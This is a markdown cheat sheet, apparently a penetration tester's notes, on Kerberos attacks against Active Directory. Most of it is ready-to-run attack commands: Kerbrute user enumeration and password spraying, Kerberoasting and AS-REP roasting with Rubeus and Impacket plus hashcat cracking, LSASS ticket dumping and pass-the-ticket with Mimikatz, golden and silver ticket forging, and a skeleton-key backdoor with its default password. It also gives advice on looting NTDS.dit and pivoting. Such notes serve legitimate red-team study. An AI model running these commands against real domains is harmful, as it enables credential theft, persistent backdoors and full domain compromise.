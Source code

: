 # kerberos basics

## Kerbrute

(/usr/share/windows-resources/Ghostpack-CompiledBinaries/Rubeus.exe)

```
# enum users
./kerbrute -dc <DOMAIN-CONTROLLER> -d <FULL-DOMAIN> <username-wordlist> -t 50

# harvest all TGTs
Rubeus.exe harvest /interval:30
```

## Attacks

```
# brute force = 1 user and a password-list-dictionary

# pass spray = 1 password & try against all users
Kerbrute.exe brute /password:<PASS> /noticket
```


### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to crack service password

```
# using Rubeus.exe
Rubeus.exe kerberoast
# copy hash and crack using hashcat -m 13100 -a 0 <hash> <passList>

# using Impacket
# dump the Kerberos hash for all kerberoastable accounts
sudo python3 GetUserSPNs.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DOMAIN-CONTROLLER> -request
```

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

```
# using Rubeus.exe
# dumps the krbasrep5 hashes of user accounts
Rubeus.exe asreproast
add $23 after $krb5asrep$
hashcat -m 18200 <hash> <PwdList>

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py <DOMAIN>/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
hashcat -m 18200 <hash> <PwdList>

secretsdump.py <user>@<domain-ip>
```

### Pass-the-ticket using Mimikatz

Can be used for dumping user credentials inside of an AD network Can dump the TGT from the LSASS memory (which stores Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided) Gives a .kirbi ticket - can be used to get domain admin The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin.

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt <ticket>

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using Mimikatz

Silver ticket = more sleath and discreet; only for target service Golden ticket = any kerberos service

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug

# dump hash and SID to create golden / silver ticket
# golden ticket /name: krbtgt
# silver ticket /name: [<domain-admin-account> | <service-account>]
lsadump::lsa /inject /name: <NAME>

# create ticket golden
kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_NTLM_hash> /id:500

# create ticket silver
kerberos::golden /user:<USER> /domain:<DOMAINM> /sid:<SID> /krbtgt:<SERVICE_NTLM_hash> /id:1103

# to access other machines
misc::cmd
```

### Kerberos backdoor using Mimikatz

Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug

misc::skeleton
# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## Resources:

```
# to find all Kerberoastable accounts
https://github.com/BloodHoundAD/BloodHound/releases

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
https://github.com/gentilkiwi/kekeo
```

